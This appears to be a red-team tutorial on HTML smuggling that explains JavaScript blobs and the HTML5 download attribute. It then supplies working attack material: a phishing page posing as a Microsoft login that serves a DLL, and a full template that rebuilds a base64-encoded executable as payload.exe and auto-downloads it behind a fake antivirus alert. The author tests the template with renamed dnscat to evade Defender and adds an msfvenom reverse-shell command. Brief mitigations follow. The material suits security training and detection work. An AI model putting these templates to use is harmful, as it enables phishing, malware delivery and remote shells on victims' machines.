






# HTML Smuggling

## Summary
HTML Smuggling has been around for a while, but it has seen an uptick in its usage lately with malware like Qakbot utilizing it. 
## What is it?
HTML Smuggling is an evasive payload delivery method that helps an attacker smuggle payload past content filters and firewalls by hiding malicious payloads inside of seemingly benign HTML files. This is possible by using JavaScript blobs and the HTML5 download attribute used with the anchor tag.
## What are anchor tags?
The anchor tag <a> defines a hyperlink that can be used to link one page to another resource like the script, other HTML page or downloadable files. When <a> is used with the “download” attribute, it can be used to provide links to a downloadable file. 
## What is a Javascript Blob?
JavaScript blobs are objects that are a collection of bytes that contain data stored in a file. Blob data is stored in the user’s memory. This collection of bytes can be used in the same places where an actual file would have been used. In other words, blobs can be used to construct file-like objects on the client that can be passed to JavaScript APIs that expect URLs.
Blobs are very useful for storing binary data because their content can be easily read as an ArrayBuffer. Blobs can be stored in the memory or on disk by the web browser, and they can represent truly massive bits of data that are too large to fit in the main memory unless first separated into smaller pieces with the slice () method.
The syntax for creating a JavaScript blob may be defined as:
```
new Blob("blobParts, options");
```
- Blobparts: It is an array of Blob, BufferSource, and string values.
- Options: It is an optional object.
- Type: It is a Blob type, generally MIME-type like image.png.

An example would be:
```
<!DOCTYPE html>  
<html>  
<head>  
    <meta charset="utf-8">  
    <title>JavaScript Blob</title>  
</head>  
<body>  
    <p id="main"></p>  
    <script>  
var abc = new Blob(["Wassup Playa"],   
{type : "text/plain"});  
var def = new FileReader();  
def.addEventListener("loadend", function(e) {  
document.getElementById("main").innerHTML  
     = e.srcElement.result;  
});  
def.readAsText(abc);  
</script>  
</body>  
</html>  
```
Let’s break this down:

1.	We start our HTML document with the tag HTML
2.	This is followed by <head> to indicate a header, where you can store things like meta tags as well as a title
3.	<title> is what will show at the top of the tab
4.	<body> starts the body of the HTML file
5.	<p> is to indicate a parameter. In this case we are specifying ‘main’ as an id element. Later in the HTML we will be referencing this ID. 
6.	<script> indicates that what comes next is Javascript
7.	var abc = new Blob(["Wassup Playa"],   {type : "text/plain"});  We can see this follows the Javascript Blob syntax I mentioned earlier. The text here, Wassup Playa, is what we will want shown on the page, thus it is the data element, in this case being a string value. Then its followed by the MIME type of text/plain. All of this is being assigned to the variable abc, so that whenever abc is used, it really means this Blob that has the string value of Wassup Playa
8.	Next we see a variable assigning FileReader. The FileReader object lets web applications asynchronously read the contents of files (or raw data buffers) stored on the user's computer, using File or Blob objects to specify the file or data to read. This is assigned to the variable def. https://developer.mozilla.org/en-US/docs/Web/API/FileReader 
9.	It is using the FileReader component of addEventListener, which sets up a function that will be called whenever the specified event is delivered to the target. It has the syntax of addEventListener(type, listener) So in our code, the type is FileReader’s loadend event https://developer.mozilla.org/en-US/docs/Web/API/FileReader/loadend_event The loadend event is fired when a file read has completed, successfully or not. Next part is function(e). Function is the function to run when the event occurs, which in this case is the loadend event. 
10.	Next it looks through the document table and gets the element named ‘main’, which we defined earlier in the start of our paragraph. innerHTML sets or returns the HTML content (inner HTML) of an element. In the case of our code, it is setting or changing the value that was in the element with the id of ‘main’ to e.srcElement.result
11.	Next, we see the readAsText portion. This starts reading the contents of the specified Blob, once finished, the result attribute contains the contents of the file as a text string. The Blob is referenced by its variable abc.
12.	The rest of the code just closes out the rest of the HTML document

If we save that and run it in a browser we will see the words Wassup Playa. 
## HTML5 Download Attribute
One way that we can get a user to download something is using the download attribute from HTML5. For this I hosted an Atomic Red Team test dll called s.dll. The raw file can be found [here](https://github.com/sh1katagana1/RedTeam/raw/main/s.dll) So my HTML page that I would send to the victim could look like this (obviously this is not very pretty, just functional for testing)
```
<html>
<body>
<h1>Microsoft Login Page!</h1>
<p>Alert! We detected some unusual activity, Login to continue. </p>
<a href="https://github.com/sh1katagana1/RedTeam/raw/main/s.dll" download="https://github.com/sh1katagana1/RedTeam/raw/main/s.dll">Login Here</a>
</body>
</html>
```
If we load that page we should see the Microsoft Login Page! text and it should prompt for download of s.dll when you click "login to continue". You can see how it can be crafted in whatever way you want, but all that’s being emailed is the HTML that does this. Additionally, the victim may have their browser at default settings which wouldn’t give this prompt but just download it. 

## Malicious Smuggle Test
Now that we have seen benign usage of some ways to do HTML Smuggling, lets try with an actual binary. For this I am using a renamed version of dnscat because I know Defender blocks it as malicious. The dnscat executable I have renamed to leroy3.exe. My test is based off of examples found [here](https://www.hackingarticles.in/a-detailed-guide-on-html-smuggling/)



First, we need to base64 encode it because the binary can’t directly be copied as a buffer because it contains various characters that might break the buffer and full file may not be copied that way. We use the base64 tool in Kali:
```
Cat leroy.exe | base64
```



It is a fairly long output. The issue with this is there is “enter” or carriage returns and its not all in one single line. In order to supply this into our blob as a buffer, we need a single string with no enters. To do this we go [here](https://base64.guru/converter/encode/file) and upload our file and convert it to base64 as plain text-just the base64 value:



The goal is to create a JavaScript Blob and a script that will allow us as an attacker to make our code recompile as an EXE file at the victim end. This approach can bypass many content filters and firewalls since the data is travelling as a string text. Here is the template we can use, just replace var binary='<value>' with the actual Base64 string value
```
<html>
<body>
<h1>Malware Detected!</h1>
<p>Alert! Run the downloaded script for anti-virus scan!</p>
<script>
function b64toarray(base64) {
        var bin_string = window.atob(base64);
        var len = bin_string.length;  
        var bytes = new Uint8Array( len );
        for (var i = 0; i < len; i++)
        {
                bytes[i] = bin_string.charCodeAt(i);
        }
        return bytes.buffer;
}
var binary ='<value>'

var data = b64toarray(binary);
var blob = new Blob([data], {type: 'octet/stream'});
var payloadfilename = 'payload.exe';

var a = document.createElement('a');
document.body.appendChild(a);
a.style = 'display: none'; 
var url = window.URL.createObjectURL(blob);
a.href = url;
a.download = payloadfilename;
a.click();
window.URL.revokeObjectURL(url);
</script>
</body>
</html>
```
First, let’s see the results of it, then we can break down whats going on in the script. So when someone gets this HTML and opens it, it will automatically craft the executable from the base64 content and then download it without anyone needing to click a link. Some peoples browsers may simply download without a prompt, so keep that in mind. 



There we see it automatically starts the download upon me visiting the page, because of the click() function, and a message stating that whatever was downloaded needs to be run to scan for viruses (of course be more crafty than this). I allow the download and then we can run strings on it to verify it is indeed the dnscat executable. 





We do see code above indicating it is indeed dnscat. Lets break down what the code is doing:
1.	Function b64toarray: Takes input of our base64 encoded binary file and converts it into a buffer array. This is necessary as the “Blob()” function takes input from a buffer array as the first parameter.
2.	Variable binary: This variable contains the base64 string of our binary and is used to provide function b64toarray input. Replace Value with our base64 encoded string.
3.	Variable blob: Holds the blob we just created and takes two inputs as explained above. Here, since we are providing a binary as input the MIME type becomes octet/stream
4.	Variable payloadfilename: It is the name that will be given to our binary once it is downloaded on the victim’s machine. This is what you would want to name to be convincing to the victim.
5.	CreateElement: A DOM function that can create new HTML elements with the help of JavaScript. For example to create a new para in HTML we type: \<p>New Para\</p>
6.	style: We are using the styling ‘display: none’ to be more discreet so that a tag isn’t visible on the output.
7.	createObjectURL(): A DOM function that can return a DOMString containing a value that represents the URL of an object. This object can be a file, media source or in our case blob. It is very necessary as the a.download works on valid URLs only. For our payload blob to be downloaded on the victim, we need to supply the a.download element with a valid URL which this function returns.
8.	click(): Is what will trigger this anchor tag to automatically run. It simulates as if a user has actually clicked on the link provided by the href tag.

You can also fir up Kali and try this with an msfvenom created payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.129.132 LPORT=1234 -f exe > payload.exe
```
Base64 encode this on base64.guru and try the same template. 

## Mitigations
- Configure security products to block against pages using JS or VBScript from automatically running a downloaded executable. Windows Attack Surface Reduction Rules are handy for this https://learn.microsoft.com/en-us/mem/intune/protect/endpoint-security-asr-profile-settings  - Specifically the following rules:
	- Block execution of potentially obfuscated scripts (js/vbs/ps)
	- Block JavaScript or VBScript from launching downloaded executable content
- Whitelist executable filenames
- Set .js and .jse to open with notepad by default and not a browser
- Educate users to manually review e-mail attachments
- Set behaviour rules for HTML pages that decode base64 code or obfuscate a JS script.
- Microsoft’s Safe Links and Safe Attachments provide real-time protection against HTML smuggling and other email threats by utilizing a virtual environment to check links and attachments in email messages before they are delivered to recipients. Thousands of suspicious behavioral attributes are detected and analyzed in emails to determine a phishing attempt

## References
 \
 \
 \ 
 \
 \
 \
 \

